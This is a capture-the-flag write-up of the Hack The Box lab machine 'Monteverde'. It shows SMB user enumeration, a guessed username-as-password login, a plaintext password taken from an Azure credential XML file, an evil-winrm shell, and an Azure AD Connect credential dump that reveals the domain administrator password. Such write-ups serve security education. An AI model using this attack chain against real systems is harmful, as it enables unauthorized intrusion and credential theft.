 # Monteverde

Monteverde was a medium windows box that involved many common windows exploitation techniques and didnt require much to get both the user and root flags

>Skills onvolved in this box:
- enumeration
- smbclient
- CrackMapExec & enum4linux
- windows privelage escalation

# USER

>Nmap

First we start off with an nmap scan and it reveals many ports open but the ones we are interested in are port 139/445 allowing access to smb.
```bash
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-01-14 07:23:00Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
```

We decide to enumerate further with enum4linux and get a list of users on the box.
```bash 
./enum4linux.pl -a 10.10.10.172
```
 reveals the users:
```bash
MEGABANK\Administrator
MEGABANK\krbtgt
MEGABANK\AAD_987d7f2f57d2
MEGABANK\mhope
MEGABANK\SABatchJobs
MEGABANK\svc-ata
MEGABANK\svc-bexec
MEGABANK\svc-netapp
MEGABANK\dgalanos
MEGABANK\roleary
MEGABANK\smorgan
```
The main user that sticks out here is SABatchJobs.
We then try to logon to the box with smbclient:
`smbclient -L 10.10.10.172 -U SABatchJobs` We try a few guesssing passwords and we manage to login with `SABatchJobs:SABatchJobs`
```bash
kali@kali:~$ smbclient -L 10.10.10.172 -U SABatchJobs
Enter WORKGROUP\SABatchJobs's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        azure_uploads   Disk      
        C$              Disk      Default share
        E$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        users$          Disk      
SMB1 disabled -- no workgroup available
```
We spot the users$ file lets take a look at that:
```bash
kali@kali:~$ smbclient //10.10.10.172/users$ -U SABatchJobs
Enter WORKGROUP\SABatchJobs's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Jan  3 08:12:48 2020
  ..                                  D        0  Fri Jan  3 08:12:48 2020
  dgalanos                            D        0  Fri Jan  3 08:12:30 2020
  mhope                               D        0  Fri Jan  3 08:41:18 2020
  roleary                             D        0  Fri Jan  3 08:10:30 2020
  smorgan                             D        0  Fri Jan  3 08:10:24 2020

                524031 blocks of size 4096. 519955 blocks available
smb: \> 
```
We take a look around the users but the only usefull thing we can find is in the dir `mhope`

We find a file called `azure.xml` and we donwload it to our box, we can jsut use `get` or for me i got a timeout error so i mounted it to my box using:
```bash
sudo mount -t cifs //10.10.10.172/users$ /mnt/monteverde -o user=SABatchJobs
```
>azure.xml:
```xml
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>

```
We find the password `4n0therD4y@n0th3r$` lets use this to try login with evil-winrm, we will use the user mhope as that is the user direcotry where we found the xml file
```bash
kali@kali:~$ evil-winrm -u mhope -p 4n0therD4y@n0th3r$ -i 10.10.10.172

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\mhope\Documents> cd ..
*Evil-WinRM* PS C:\Users\mhope> cd Desktop
*Evil-WinRM* PS C:\Users\mhope\Desktop> ls


    Directory: C:\Users\mhope\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         1/3/2020   5:48 AM             32 user.txt


*Evil-WinRM* PS C:\Users\mhope\Desktop> type user.txt
4961976bd7d8f4eeb2ce3705e2f212f2
*Evil-WinRM* PS C:\Users\mhope\Desktop>
```
There we go and we get the user flag!

# ROOT

We start by checking permissions for our user `whoami /groups` brings back some interseting results:
```bash
*Evil-WinRM* PS C:\Users\mhope\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
MEGABANK\Azure Admins                       Group            S-1-5-21-391775091-850290835-3566037492-2601 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group

```
`MEGABANK\Azure Admins` seems to be usefull somehow, after a google search we find a priv esc tool called `AzureADConnect` which spits out the admin creds for the box, so we try and utilise this. https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1 <-- for the tool 

```javascript
*Evil-WinRM* PS C:\Users\mhope\Desktop> import module ./AzureADConnect.ps1 <-- from our box
*Evil-WinRM* PS C:\Users\mhope\Desktop> AzureADConnect -server 127.0.0.1 -db ADSync
[+] Domain:  MEGABANK.LOCAL
[+] Username: Administrator
[+] Password: d0m@in4dminyeah!
```
Great now we have creds for the administrator lets log in and grab the root flag!
```bash
kali@kali:~/boxes/monteverde$ evil-winrm -u Administrator -p d0m@in4dminyeah! -i 10.10.10.172

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint


*Evil-WinRM* PS C:\Users\Administrator\Documents> 
cd*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         1/3/2020   5:48 AM             32 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
12909612d25c8dcf6e5a07d1a804a0bc
```
Thanks for reading hope you enjoyed!

